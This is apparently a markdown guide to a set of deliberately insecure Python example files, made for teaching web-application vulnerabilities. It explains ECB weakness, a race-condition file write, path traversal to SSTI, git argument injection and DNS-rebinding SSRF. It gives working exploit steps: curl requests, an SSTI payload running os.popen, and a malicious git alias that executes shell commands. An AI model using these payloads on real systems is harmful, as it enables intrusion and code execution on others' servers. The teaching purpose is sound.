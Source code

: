 # Contents

- [WeakEncryption.py](#weakencryptionpy)
- [RaceCondition.py](#raceconditionpy)
- [PathTraversal.py](#pathtraversalpy)
- [ArgumentInjection.py](#argumentinjectionpy)
- [ServerSideRequestForgery.py](#serversiderequestforgerypy)
&nbsp;

## [WeakEncryption.py](../../examples/insecure/python/WeakEncryption.py)
Path: `/examples/insecure/python/WeakEncryption.py`

### Explanation

- It is not recommended to use ECB (Electronic Codebook) mode in AES encryption (line 1) because this mode encrypts data block by block without proper randomization. Instead, CBC (Cipher Block Chaining) mode or other cryptographically secure methods should be used. 

- When encryption is performed using ECB, patterns in the input data can still be observed in the output, making it insecure for certain types of data, especially images. For example:
   - If a block of data (a byte) is changed, only the specific block in the output is affected and the rest remains unchanged. This behavior is not suitable for encryption of sensitive or visual data.

- A visual example of ECB's block-by-block encoding is the well-known "ECB Tux" image:  
  ![ECB Tux Example](../../docs/img/ecb-tux.jpg)  
  As seen in this example, the penguin shape remains recognizable in the encrypted image, demonstrating ECB's vulnerability.

To better understand this vulnerability, I recommend reviewing the resources listed under cryptography in [Articles.md](../../docs/references/Articles.md).


&nbsp;


## [RaceCondition.py](../../examples/insecure/python/RaceCondition.py)

Path: `/examples/insecure/python/RaceCondition.py`

### Explanation

You cannot perform a directory traversal attack due to line 9. However, Absolute Path Manipulation + Arbitrary File Write via Race Condition can be applied

**Absolute Path Manipulation (`os.path.join`)**  
```python
src = os.path.join('contrib', 'languages', language_name)  # e.g., language_name = "/tmp/storage/malicious.tar"
```  
**Behavior and Vulnerability:**  

- If `language_name` contains an absolute path (e.g., `/tmp/storage/malicious.tar`), `os.path.join` **ignores previous components**:  
  ```python
  src = os.path.join('contrib', 'languages', '/tmp/storage/malicious.tar') 
  # Result: /tmp/storage/malicious.tar (removes contrib/languages/)

  dst = os.path.join('/tmp/extract', '/tmp/storage/malicious.tar') 
  # Result: /tmp/storage/malicious.tar (removes /tmp/extract)
  ```

- Since `src` and `dst` **point to the same file**, `shutil.copy` may raise a **SameFileError**. However, an attacker can bypass this error using a Race Condition attack.  

**Exploiting `shutil.copy` with a Race Condition**  
```python
shutil.copy(src, dst)  # Fails if source and destination are the same, BUT...
```  

1. **Step 1: Upload a Malicious TAR File via `/upload`**  
   ```bash
   curl -F "data=@malicious.tar" http://arastaci.com/upload -H "Content-Disposition: attachment; filename='/tmp/storage/malicious.tar'"
   ```  
   - The file is stored as `/tmp/storage/malicious.tar`.

2. **Step 2: Trigger the `install` Endpoint**  
   ```bash
   curl "http://arastaci.com/install?language_name=/tmp/storage/malicious.tar"
   ```

3. **Step 3: Quickly Delete the File (`/clean`)**  
   ```bash
   curl "http://arastaci.com/clean?file=/tmp/storage/malicious.tar"
   ```

#### **How the Race Condition Works:**  
- `shutil.copy` executes in **two steps**:  
  - If an attacker deletes `src` **after the existence check** but **before the copy operation**, `shutil.copy` **fails silently**.  
  - This does **not** prevent `unpack_archive(dst, extract_dir='/tmp/extract')` from executing, allowing the extraction of malicious files.  


&nbsp;

## [PathTraversal.py](../../examples/insecure/python/PathTraversal.py)

Path: `/examples/insecure/python/PathTraversal.py`

### Explanation

**Path Traversal + SSTI (Server-Side Template Injection)**  

At line 23, the username parameter received during user registration is directly appended to the file path.

**Issue:**  
- If the username parameter is set to `../templates/error.html`, the **notes_file** path resolves to `templates/error.html`. This allows overwriting the template file.

- Since templates/error.html is within the application’s root directory (app.root_path), **the validation does not fail**.


#### **Register with a Malicious Username**
```markdown
POST /register HTTP/1.1
...
username=../templates/error.html&password=test
```
- notes_file resolves to notes/../templates/error.html → templates/error.html

#### **Inject an SSTI Payload**
```markdown
POST /notes HTTP/1.1
...
notes={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
- This writes a malicious Jinja2 template payload into error.html

#### **Trigger the Error Page**
```markdown
GET /register?username=guest  # "Username already taken!" error
```
- The error.html template is rendered, executing the payload → **Displays the output of the `id` command**.

&nbsp;

## [ArgumentInjection.py](../../examples/insecure/python/ArgumentInjection.py)

Path: `/examples/insecure/python/ArgumentInjection.py`

### **Explanation**

At line 9, the `/blame` endpoint directly passes the user-supplied `what[]` parameter to the `git blame` command.

**Issue:**  
  The `file` and `lines` parameters are included in **git blame** without validation.  
  An attacker can inject Git arguments like `--output`, leading to filesystem manipulation.

### **Exploitation: Inject Malicious Parameters**
```markdown
POST /blame HTTP/1.1
...
what[]=--output=../../.git/HEAD:1
```
- Executes: `git blame -L 1 --output=../../.git/HEAD`
- Result: The `.git/HEAD` file **gets truncated (emptied)**.

#### **Exploiting Git's Behavior**
When `.git/HEAD` is corrupted, Git searches for a **bare repository** in parent directories.

If the attacker places a fake Git configuration in the root directory:
```ini
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
[alias]
    blame = !sh -c 'id > /tmp/pwned' #
```
The next **git blame** execution triggers the **custom alias**, executing the `id` command.

&nbsp;

## [ServerSideRequestForgery.py](../../examples/insecure/python/ServerSideRequestForgery.py)

Path: `/examples/insecure/python/ServerSideRequestForgery.py`

### Explanation

The `/avatar/<avatar>` endpoint follows a two-step process:  
1. **DNS Resolution (Validation)** → Handled by the `is_their_service_broken` function on **line 14**.  
2. **HTTP Request Execution** → Occurs on **line 17**.

**Issue:**  
An attacker can exploit a time-of-check to time-of-use (TOCTOU) race condition between two DNS queries:  
- During the first resolution, the hostname resolves to a public IP (validation passes).  
- Before the second resolution, the attacker changes the DNS record to return a private IP (gaining access to internal services).

**Exploitation:**
1. Use `rbndr.us` to create a hostname, e.g., `example.01010101.0a004a8c.rbndr.us`.  
2. Initially, this hostname points to `1.1.1.1` (a public IP).  
3. The `is_their_service_broken` function resolves the hostname and determines it points to a public IP, returning **True**.  
4. **Quickly update** the DNS record to point to `10.0.74.140` (a private IP).  
5. The `requests.get` function resolves the hostname again this time to the **private IP** and sends an HTTP request, allowing access to internal systems.

This attack is especially effective if **DNS caching is disabled or TTL (Time to Live) is short**.

&nbsp;
